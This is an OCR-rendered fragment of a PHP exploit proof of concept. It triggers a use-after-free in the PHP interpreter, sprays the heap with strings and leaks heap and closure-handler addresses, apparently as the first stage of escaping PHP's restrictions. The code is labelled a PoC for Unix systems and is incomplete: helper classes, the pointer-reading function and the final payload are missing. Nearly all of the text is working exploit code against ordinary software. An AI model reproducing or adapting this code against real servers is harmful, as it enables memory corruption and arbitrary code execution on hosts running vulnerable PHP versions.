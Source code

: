 ```php

  function trigger_uaf($arg) {

​    \# str_shuffle prevents opcache string interning

​    $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

​    $vuln = new Vuln();

​    $vuln->a = $arg;

  }

 

  if(stristr(PHP_OS, 'WIN')) {

​    die('This PoC is for *nix systems only.');

  }

 

  $n_alloc = 10; # increase this value if UAF fails

  $contiguous = [];

  for($i = 0; $i < $n_alloc; $i++)

​    $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

 

  trigger_uaf('x');

  $abc = $backtrace[1]['args'][0];

 

  $helper = new Helper;

  $helper->b = function ($x) { };

 

  if(strlen($abc) == 79 || strlen($abc) == 0) {

​    die("UAF failed");

  }

 

  \# leaks

  $closure_handlers = str2ptr($abc, 0);

  $php_heap = str2ptr($abc, 0x58);

  $abc_addr = $php_heap - 0xc8;

```